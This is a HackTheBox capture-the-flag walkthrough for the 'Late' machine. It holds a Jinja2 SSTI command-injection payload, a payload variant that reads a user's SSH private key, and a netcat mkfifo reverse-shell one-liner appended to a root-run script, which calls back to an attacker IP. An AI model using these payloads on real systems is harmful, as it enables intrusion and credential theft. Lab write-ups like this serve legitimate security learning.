# Hackthebox - Late


This post is focused on the walkthrough of Easy Machine Late from HackTheBox.

<!--more-->

## Enumeration

Starting out with the initial nmap scan.

```bash
nmap -A -vv 10.10.11.156 -oN nmapN
```



We have ports 22 and 80 is open. So let's enumerate port 80 now.


We have a website here titled Late.

Scrolling through the website I found a link pointing to *images.late.htb*.



Let's add late.htb and images.late.htb in our /etc/hosts file.

```bash
echo "10.10.11.156 late.htb " | sudo tee -a /etc/hosts
echo "10.10.11.156 images.late.htb " | sudo tee -a /etc/hosts
```

Visiting *images.late.htb* we have,



The title says it converts image to text. Let's try that out. 

I took a screenshot of a text and uploaded the file and it returned with the correct text. I uploaded,


It returned,



Since the title of the page says it converts image to text with flask. I started trying most common vulnerability of flask Server Side Template Injection (SSTI).

I uploaded the following payload.



And it returned *49*.

This confirmed the SSTI. I further enumerated to confirm the template engine and it turned out to be Jinja2.

## Gaining Access

For command injection, I injected the following payload from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

And got the following output.



Boom! Our command successfully got injected. Let's grab the ssh private key for a stable command shell.

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /home/svc_acc/.ssh/id_rsa').read() }}
```

The output,


## user.txt

```bash
ssh -i id_rsa svc_acc@late.htb
```



## Privilege Escalation

After enumerating for a while I came across a file in */usr/local/sbin*.



Reading the file's contents.



As can be seen this file is sending a mail to *root@late.htb* every time a ssh login is detected.

I tried manipulating the file's contents but got a message Operation not permitted.

Checking the file's attributes.



Since 'a' (append only) flag is enabled, we can append our code within the script to escalate our privileges.

I appended a reverse shell in the script which will connect back to my machine as root.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f" >> ssh-alert.sh
```

On my machine I started up a netcat listener

Now I need to login using ssh again and I'll get a connection back to my machine.



## root.txt



<center>

</center>

**Thanks for reading!**

